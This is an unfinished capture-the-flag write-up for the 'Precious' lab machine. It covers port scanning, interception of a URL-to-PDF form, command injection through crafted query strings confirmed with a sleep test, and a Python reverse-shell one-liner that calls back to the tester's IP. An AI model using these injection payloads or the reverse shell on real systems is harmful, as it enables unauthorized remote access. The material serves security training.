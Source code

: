 # Precious [In Progress]

## Service and Port Enumeration

Let's start with a basic port scan (no ping)
`nmap -sS -Pn 10.10.11.189`

Nmap gives us:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Run NSE scripts to find domain name?
```
└─$ sudo nmap -sV -sC -Pn 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-08 22:49 EST
Nmap scan report for 10.10.11.189
Host is up (0.0055s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The IP resolves to `http://precious.htb/`

We add this to our `/etc/hosts` file, and plug the hostname into the browser

---

## The webpage

The main functionality of the page is to submit data entered into a text field - sent as an HTTP POST request

Intercepting the request, we see:
```
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://precious.htb
DNT: 1
Connection: keep-alive
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1

url=
```

So, we supply a url and it will print a pdf with its contents
- This seems like an injection type of vuln
- I could have it, for instance, print the contents of my current directory
    - All i'd need to do is set up a network listener

So let's prop up a python web server: `python3 -m http.server 80`
```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then we inject our IP address into the text field
```
http://10.10.14.37
```

We get a PDF in a new tab with the contents of our directory!
- So, we can connect to our url, and add a `name` query string 
    - We can delimit a user input `fragment` with `#`
    - We can encapsulate a user input `fragment` with `{<user_input>}`
    - We surround our 'payload' string with `''`'s, and the command itself with tick-marks 
    - Full info on query string syntax is documented in [RFC3986](https://www.rfc-editor.org/rfc/rfc3986)

### Demonstration:

When we try
```
'http://10.10.14.37/?name=#{`echo hello`}'
```

We get the following:
```
Directory listing for /?name=#{`echo hello`}
```

This is not the output we were hoping for, let's wrap it in single quotes

When we try '`echo hello`', we get a URL-encoded string:
```
10.10.11.189 - - [17/Dec/2022 11:57:35] "GET /?name=%23%7B'%60echo%20hello%60'%7D HTTP/1.1" 200 -
```
And
```
Directory listing for /?name=#{'`echo hello`'}
```

Also not what we were looking for!
- If we purposely inject a url-encoded character (like a space - `%20`)
    - Will that trick the parser into running the input?

Running
```
"http://10.10.14.37/?name=#{'%20`echo hello`'}"
```

We get:
```
10.10.11.189 - - [17/Dec/2022 12:29:01] "GET /?name= HTTP/1.1" 200 -
```
And
```
Directory listing for /?name=
```

So the instruction looks as though it were processed, but we don't know for sure

Let's try a command that we can more easily verify:
``` 
http://10.10.14.37/?name=#{'%20`sleep 5`'}
```

We see the browser sleep for 5 seconds and then post the HTTP response
- So we know that our commands in this format are working 
- Let's try to get a reverse shell

When running this as input:
```
http://10.10.14.37/?name=#{'%20`python3 -c 'import pty,socket;s=socket.socket();s.connect(("10.10.14.37", 80));pty.spawn("/bin/bash")'`'}
```

Our session hangs - which is also a good sign! But we're not seeing a shell spawn:
```
10.10.11.189 - - [17/Dec/2022 13:48:30] "GET /?name= HTTP/1.1" 200 -
```



